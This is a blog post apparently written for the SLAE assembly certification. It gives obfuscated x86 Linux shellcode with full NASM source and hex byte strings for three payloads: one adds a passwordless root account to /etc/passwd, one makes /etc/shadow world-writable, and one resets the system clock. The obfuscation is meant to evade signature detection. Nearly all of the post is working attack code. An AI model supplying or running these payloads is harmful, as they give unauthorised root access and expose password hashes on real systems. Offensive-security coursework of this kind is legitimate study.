

# 6. Obfuscated Shellcode

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create obfuscated versions of three shellcodes from http://shell-storm.org/shellcode/ for Linux on the x86 architecture. The goal is to modify the shellcode while preserving functionality.

Additionally, smaller code size is preferred.

## Modified "Add Root User"

Original shellcode by Kris Katterjohn can be found [here](http://shell-storm.org/shellcode/files/shellcode-211.php).

The modified version can be found [here](https://github.com/SpacePlant/slae32/blob/main/add_root_user.nasm):

```nasm
global _start

section .text

_start:
    ; int open(const char *pathname, int flags): syscall 0x5
    ;   fd = open("/etc//passwd", O_WRONLY | O_APPEND)
    xor ecx, ecx        ; ecx = 0
    push ecx            ; string null-termintator
    mov eax, 0x64777373 
    push eax            ; "sswd" reversed
    xor eax, 0x5075C5C
    push eax            ; "//pa" reversed
    xor eax, 0x2044A01
    inc eax
    push eax            ; "/etc" reversed
    mov ebx, esp        ; ebx = "/etc/passwd"
    mul ecx             ; eax = 0, edx = 0
    mov al, 0x5         ; eax = 5
    mov cx, 0x401       ; ecx = O_WRONLY | O_APPEND
    int 0x80            ; perform syscall
    
    ; ssize_t write(int fd, const void *buf, size_t count): syscall 0x4
    ;   write(fd, "r00t::0:0:::", 12)
    xchg eax, ebx       ; ebx = fd
    mov eax, 0x3a3a3a30
    push eax            ; "0:::" reversed
    ror eax, 16
    push eax            ; "::0:" reversed
    add eax, 0x39FFF638
    push eax            ; "r00t" reversed
    mov ecx, esp        ; ecx = "r00t::0:0:::"
    push byte 0x4
    pop eax             ; eax = 4
    mov dl, 0xc         ; edx = 12
    int 0x80            ; perform syscall
    
    ; int close(int fd): syscall 0x6
    ;   close(fd)
    shr al, 1           ; eax = 6 (eax = 12 from write return)
    int 0x80            ; perform syscall (ebx is already set)
    
    ; void _exit(int status): syscall 0x1
    ;   _exit(whatever)
    inc eax             ; eax = 1 (eax = 0 from close return)
    int 0x80            ; perform syscall
```

The modified version is 2 bytes (~3%) smaller than the original shellcode:

```sh
$ shellcode=$(for i in $(objdump -d add_root_user | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xc9\x51\xb8\x73\x73\x77\x64\x50\x35\x5c\x5c\x07\x05\x50\x35\x01\x4a\x04\x02\x40\x50\x89\xe3\xf7\xe1\xb0\x05\x66\xb9\x01\x04\xcd\x80\x93\xb8\x30\x3a\x3a\x3a\x50\xc1\xc8\x10\x50\x05\x38\xf6\xff\x39\x50\x89\xe1\x6a\x04\x58\xb2\x0c\xcd\x80\xd0\xe8\xcd\x80\x40\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
67
```

The shellcode is executed successfully using the C template:


## Modified "Chmod Shadow File"

Original shellcode by Kris Katterjohn can be found [here](http://shell-storm.org/shellcode/files/shellcode-210.php).

The modified version can be found [here](https://github.com/SpacePlant/slae32/blob/main/chmod_shadow.nasm):

```nasm
global _start

section .text

_start:
    ; int chmod(const char *pathname, mode_t mode): syscall 0xf
    ;   chmod("/etc/shadow", 0666)
    push byte 0x77      ; "w"
    push word 0x6f64    ; "do" reversed
    mov eax, 0x6168732f
    push eax            ; "/sha" reversed
    xor eax, 0x21C1601
    inc eax
    push eax            ; "/etc" reversed
    mov ebx, esp        ; ebx = "/etc/shadow"
    and eax, 0xf        ; eax = 0xf
    push word 0x1b6
    pop ecx             ; ecx = 0x652f[01b6] = 0666
    int 0x80            ; perform syscall
    
    ; void _exit(int status): syscall 0x1
    ;   _exit(whatever)
    inc eax             ; eax = 1
    int 0x80            ; perform syscall
```

The modified version is 2 bytes (~6%) smaller than the original shellcode:

```sh
$ shellcode=$(for i in $(objdump -d chmod_shadow | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x6a\x77\x66\x68\x64\x6f\xb8\x2f\x73\x68\x61\x50\x35\x01\x16\x1c\x02\x40\x50\x89\xe3\x83\xe0\x0f\x66\x68\xb6\x01\x59\xcd\x80\x40\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
34
```

The shellcode is executed successfully using the C template:



## Modified "Reset System Time"

Original shellcode by Kris Katterjohn can be found [here](http://shell-storm.org/shellcode/files/shellcode-213.php).

The modified version can be found [here](https://github.com/SpacePlant/slae32/blob/main/reset_time.nasm):

```nasm
global _start

section .text

_start:
    ; int stime(const time_t *t): syscall 0x19
    ;   stime([0])
    xor eax, eax    ; eax = 0
    push eax
    mov ebx, esp    ; ebx = [0]
    mov al, 0x19    ; eax = 25
    int 0x80        ; perform syscall
    
    ; void _exit(int status): syscall 0x1
    ;   _exit(whatever)
    inc eax         ; eax = 1
    int 0x80        ; perform syscall
```

The modified version is the same size as the original shellcode:

```sh
$ shellcode=$(for i in $(objdump -d reset_time | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xc0\x50\x89\xe3\xb0\x19\xcd\x80\x40\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
12
```

The shellcode is executed successfully using the C template:


